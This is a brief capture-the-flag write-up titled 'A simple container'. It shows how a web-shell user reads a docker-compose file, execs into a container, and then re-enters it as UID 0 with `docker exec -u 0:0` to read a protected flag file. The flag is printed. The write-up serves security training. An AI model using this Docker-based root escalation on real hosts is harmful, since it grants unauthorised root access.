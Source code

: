 # A simple container
### Information:
- web shell

There is 2 user:
- user
- admin

In `/home/admin` there is a docker-compose.yml

```yaml
user@main-75dcb7f9db-xqgb6:/home/admin$ cat docker-compose.yml 
services:
  app:
    image: app
```

```bash
user@main-75dcb7f9db-xqgb6:/home/admin$ docker exec -it 7f883 /bin/sh
$ whoami
player
$ cd /
bin  boot  dev  etc  flag.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
$ cat flag.txt
cat: flag.txt: Permission denied
```
Just get back in it with `UID: 0 GID: 0` for `root`

```bash
user@main-75dcb7f9db-xqgb6:/home/admin$ docker exec -it -u 0:0 7f883 /bin/sh
# whoami
root
# cd /
# ls
bin  boot  dev  etc  flag.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
# cat flag.txt
4T${SIMPLE_is_VERy_$1mple_aM_i_r1ght}
```

There it is, it was `a simple container`


